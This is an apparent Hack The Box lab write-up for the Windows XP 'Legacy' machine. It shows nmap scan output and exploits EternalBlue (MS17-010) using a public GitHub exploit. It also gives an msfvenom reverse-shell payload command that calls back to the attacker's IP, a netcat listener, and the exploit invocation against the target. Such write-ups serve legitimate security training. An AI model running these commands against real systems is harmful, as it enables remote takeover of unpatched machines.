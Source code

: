 ```yaml
---
title: "Legacy"
date: 2023-06-26T00:50:22+02:00
tags: ["smb","windows"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/Legacy.png
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "A windows room that has vulnerable samba service running."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Legacy
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Legacy

![Untitled](/HTB/legacy-icon.png)

## Tools Used

- Nmap
- Msfvenom
- Github

## Port Scanning

First we need to do a port scan to know what are we trying to exploit.

```bash
PORT    STATE SERVICE     REASON          VERSION
135/tcp open  msrpc       syn-ack ttl 127 Microsoft Windows RPC
139/tcp open  netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open              syn-ack ttl 127 Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-06-30T18:16:12+03:00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 29179/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 50902/udp): CLEAN (Failed to receive data)
|   Check 4 (port 8957/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m16s, median: 4d22h57m38s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:b9:90 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00:50:56:b9:b9:90:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

Look like we have two smb ports the 139,445 so we are going to focus on them.

## Enumeration

With `sudo nmap 10.10.10.14 -p 139,445 --script=vuln` I am going to see if nmap can see some vulnerabilities.

```bash
Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (sudo)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
```

I found two possible vulnerabilities the MS17-010 (CVE-2017-0143) and MS08-067 (CVE-2008-4250) but because I have SMB v1 I am going to exploit the first one.

## Exploiting

The CVE-2017-0143 or better called Eternal Blue is a vulnerability that allows us to exploit the Microsoft’s implementation of the Server Message Block (SMB) protocol with a crafted package to have RCE in the victim machine. 

I can exploit the machine easily with metasploit but I am going to try another way more oscp friendly.

If we google MS17-010 we can found a git repository: https://github.com/helviojunior/MS17-010.git

```bash
git clone https://github.com/helviojunior/MS17-010.git
```

Once we cloned the exploit let’s get a reverse shell with mfsvenom (Legal in OSCP).

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f exe > eternalblue.exe
```

With a listener and sending the reverse shell with the help of the exploit we are able to own the machine.

```bash
nc -lv 4444
```

```bash
python send_and_execute.py 10.10.10.4 ~/Documents/exploits/eternalblue.exe
```

## Gaining an Initial Foothold

We are in now, with `dir user.txt /s` and `dir root.txt /s` we can know where is the flags.

![Untitled](/HTB/legacy-1.png)

![Untitled](/HTB/legacy-2.png)

## Lessons Learned

- What insights did you gain from the room?
    
    Now, we know how to perform a windows samba attack with the eternal blue vulnerability that allows me to RCE the victim machine.
    
- Were there any novel tools or techniques employed?
    
    I performed a CVE-2017-0143 exploit and msfvenom reverse shell.

**Thank you for reading, and happy hacking! 😄**
